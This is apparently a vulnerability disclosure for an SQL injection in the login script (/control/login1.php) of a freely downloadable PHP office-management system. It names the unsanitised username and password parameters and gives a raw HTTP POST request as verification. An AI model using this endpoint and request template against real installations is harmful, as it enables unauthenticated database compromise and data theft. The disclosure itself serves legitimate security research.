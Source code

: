 

Advocate office management has an SQL injection vulnerability that could be exploited by an attacker to steal information or compromise a database without authentication.





Source code address：https://www.sourcecodester.com/php/17280/advocate-office-management-system-free-download.html



The vulnerability is located in the /control/login1.php file, you can see that the code is to receive the POST request username, password parameters, down to 26 lines, will put the input content into the SQL statement for query, resulting in direct splicing.

![image-20250314122925161](images/image-20250314122925161.png)



Vulnerability verification：

```
POST /office/kortex_lite/control/login1.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------256601178914505
Content-Length: 356

-----------------------------256601178914505
Content-Disposition: form-data; name="username"

1@qq.com
-----------------------------256601178914505
Content-Disposition: form-data; name="password"

1
-----------------------------256601178914505
Content-Disposition: form-data; name="login"

Login
-----------------------------256601178914505--

```

![image-20250314123012655](images/image-20250314123012655.png)



































